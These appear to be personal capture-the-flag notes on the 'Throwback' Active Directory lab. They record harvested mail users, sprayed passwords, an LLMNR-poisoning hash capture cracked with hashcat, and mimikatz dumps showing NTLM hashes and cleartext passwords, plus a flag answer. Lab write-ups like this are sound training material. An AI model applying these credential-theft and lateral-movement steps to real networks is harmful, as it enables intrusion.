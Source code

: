 `On TB-MAIL server  - 10.200.53.232`  SQuirellMail is used 
```
full_name=BoJack Horseman
email_address=HorsemanB@throwback.local

full_name=Jeff Davies
email_address=DaviesJ@throwback.local

full_name=Fredrick Murphy
email_address=MurphyF@throwback.local

email_address=murphyf@throwback.local
reply_to=murphyf@throwback.local

full_name=noreply
email_address=noreply@throwback.local

full_name=Spooks
email_address=spopy@throwback.local
reply_to=spopy@throwback.local

DaviesJ|J|Davies|DaviesJ@throwback.local|
GongoH|Hugh |Gongo|GongoH@throwback.local|
SummersW|Summers|Winters|SummersW@throwback.local|
BlaireJ|J|Blaire|BlaireJ@throwback.local|
DaibaN|Nana|Daiba|DaibaN@throwback.local|
HorsemanB|BoJack|Horseman|HorsemanB@throwback.local|
MurphyF|Frank|Murphy|MurphyF@throwback.local|
PeanutbutterM|Mr|Peanutbutter|PeanutbutterM@throwback.local|
HumphreyW|W|Humphrey|HumphreyW@throwback.local|
JeffersD|D|Jeffers|JeffersD@throwback.local|
PetersJ|Jon|Peters|PetersJ@throwback.local|
FoxxR|Rikka|Foxx|FoxxR@throwback.local|
noreply|noreply|noreply|noreply@throwback.local|TBH{4060a70860f0a1648e5a991de1739888}


full_name=Throwback Hacks Guest
email_address=tbhguest@throwback.local
```


On mail server, we got access to MurphyF
![[Pasted image 20220926061325.png]]


Some of the valid usernames and passwords we got were (from the MAIL server):
```
PeanutButterM : Summer2020
GongoH : Summer2020
JeffersD : Summer2020
MurphyF : Summer2020
DaviesJ : Management2018
```


# We get the NTLMv2 hashes by LLMNR posioning
![[Pasted image 20220930061833.png]]
- Using hashcat we crack the hashes! (Answer - Throwback317)


## From mimikatz using admin-petersj by running commands we get the following logon passwords

1. BlaireJ
```
Authentication Id : 0 ; 178626 (00000000:0002b9c2)
Session           : Batch from 0
User Name         : BlaireJ
Domain            : THROWBACK
Logon Server      : THROWBACK-DC01
Logon Time        : 10/7/2022 6:30:57 PM
SID               : S-1-5-21-3906589501-690843102-3982269896-1116
	msv :	
	 [00000003] Primary
	 * Username : BlaireJ
	 * Domain   : THROWBACK
	 * NTLM     : c374ecb7c2ccac1df3a82bce4f80bb5b
	 * SHA1     : 6522277853426f24275c4c0b0381458ef452e640
	 * DPAPI    : db241bce607cacb4b04d032e25071f0f

Username : BlaireJ
	 * Domain   : THROWBACK
	 * Password : (null)
	kerberos :	
	 * Username : BlaireJ
	 * Domain   : THROWBACK.LOCAL
	 * Password : 7eQgx6YzxgG3vC45t5k9

```

2. PetersJ
```
Authentication Id : 0 ; 383344 (00000000:0005d970)
Session           : RemoteInteractive from 2
User Name         : petersj
Domain            : THROWBACK
Logon Server      : THROWBACK-DC01
Logon Time        : 10/7/2022 6:33:51 PM
SID               : S-1-5-21-3906589501-690843102-3982269896-1202
	msv :	
	 [00000003] Primary
	 * Username : PetersJ
	 * Domain   : THROWBACK
	 * NTLM     : b81e7daf21f66ff3b8f7c59f3b88f9b6
	 * SHA1     : c0c2f57355e44b7fadbfe9921537d452133997f4
	 * DPAPI    : 3bf226ffb12ebe58a21b1a5758072047
	tspkg :	
	wdigest :	
	 * Username : PetersJ
	 * Domain   : THROWBACK
	 * Password : (null)
	kerberos :	
	 * Username : petersj
	 * Domain   : THROWBACK.LOCAL
	 * Password : (null)
	ssp :	
	credman :	
	 [00000000]
	 * Username : admin-petersj
	 * Domain   : localadmin.pass
	 * Password : SinonFTW123!
	 [00000001]
	 * Username : THROWBACK-PROD\admin-petersj
	 * Domain   : THROWBACK-PROD\admin-petersj
	 * Password : SinonFTW123!
```

3. Administrator
```
Authentication Id : 0 ; 76210 (00000000:000129b2)
Session           : Batch from 0
User Name         : Administrator
Domain            : THROWBACK-PROD
Logon Server      : THROWBACK-PROD
Logon Time        : 10/7/2022 6:30:44 PM
SID               : S-1-5-21-1142397155-17714838-1651365392-500
	msv :	
	 [00000003] Primary
	 * Username : Administrator
	 * Domain   : THROWBACK-PROD
	 * NTLM     : a06e58d15a2585235d18598788b8147a
	 * SHA1     : 4e40938facb10fb6aa244240301b791a0454f328
	tspkg :	
	wdigest :	
	 * Username : Administrator
	 * Domain   : THROWBACK-PROD
	 * Password : (null)
	kerberos :	
	 * Username : Administrator
	 * Domain   : THROWBACK-PROD
	 * Password : (null)
	ssp :	
	credman :	
	 [00000000]
	 * Username : admin-petersj
	 * Domain   : THROWBACK-PROD
	 * Password : SinonFTW123!
	 [00000001]
	 * Username : admin-petersj
	 * Domain   : Login
	 * Password : SinonFTW123!
	 [00000002]
	 * Username : THROWBACK-PROD\admin-petersj
	 * Domain   : THROWBACK-PROD\admin-petersj
	 * Password : SinonFTW123!


```

- Here we found NTLM hashes for different users as well as cleartext passwords too!
![[Pasted image 20221008004113.png]]

MySQL cracked hash for mysql service obtained from THROWBACK-WS01
``mysql337570``

So we can SSH into timekeeper's machine THROWBACK-TIME and log into the SQL database with this above password


### List of users retrieved from the SQL database
